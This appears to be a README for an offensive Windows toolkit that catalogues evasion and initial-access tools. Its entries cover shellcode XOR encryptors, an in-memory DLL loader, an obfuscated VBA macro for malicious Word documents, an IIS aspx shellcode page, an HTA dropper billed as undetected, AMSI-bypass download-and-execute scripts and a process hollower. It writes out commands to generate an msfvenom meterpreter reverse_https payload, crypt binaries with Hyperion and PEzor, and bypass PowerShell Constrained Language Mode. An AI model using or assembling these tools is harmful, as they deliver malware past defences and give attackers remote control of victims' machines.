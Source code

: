 ## TOOLS:
* Platform.sln => platform.exe
```
PE with bypasses - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* XOREncrypt.sln => XOREncrypt.exe 
```
A second layer shellcode XOR encoer.
```
* holcrimson.sln => holcrimson.dll
```
Unamanged DLL for in memory loading - use with x86/shikata_ga_nai | x64/zutto_dekiru encoder + XOREncrypt.sln
```
* Doc1.doc - example Doc1.doc from medium article.
* VBA_XORencrypt.ps1 - Powershell script for encrypting 4 parts of VBA macro.
* Platform.txt - PS script
```
1. AMSI bypass
2. Download DLL
3. Load DLL to memory.
4. Run DLL.
```
* macro.vba - for Doc1.doc
```
Obfuscated VBA macro for docm / doc attack.
```
* platform.aspx - for IIS webserver attack
```
Use with msfvenom encrypted generated shellcode + XOREncrypt.sln
```
* platform.hta - dropper.
```
Use with obfuscated PE ShellCode Runner
Download to disk and run - this is undetected.
```
* isma.txt - use "-arg=1".split for arguemnts parsing.
```
1. AMSI bypass
2. Download PE
3. Load PE to memory.
4. Run PE.
```
* HOLLOW.sln => HOLLOW.exe - Process Hollower.
```
1. Generate encrypted shellcode
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$ip LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key w -o shell.cs
2. Place inside and compile it.
```
* ConfuserEX.zip - for .NET PE obfuscation.
* Hyperion.zip - Crypter for PE obfuscation.
```
hyperion.exe input.exe output.exe
```
* [Pezor](https://github.com/Karmaz95/PEzor)
```
bash PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 evil.exe -z 2
```
* bypass-clm.exe - [CLM Bypass](https://github.com/Karmaz95/bypass-clm) => spawn PowerShell in current terminal.
* clm_enc.txt - Same as bypass-clm.exe but base64 encoded with certutil and you can pass b64 encoded commands:
```
certutil -decode clm_enc.txt clm.exe
# Example of b64 below checks if the PowerShell run in FullLanguage
clm.exe "JABFAHgAZQBjAHUAdABpAG8AbgBDAG8AbgB0AGUAeAB0AC4AUwBlAHMAcwBpAG8AbgBTAHQAYQB0AGUALgBMAGEAbgBnAHUAYQBnAGUATQBvAGQAZQA="
```

## SCORE 
<p align="center">
  <img src="antiscanme.png" />
</p>
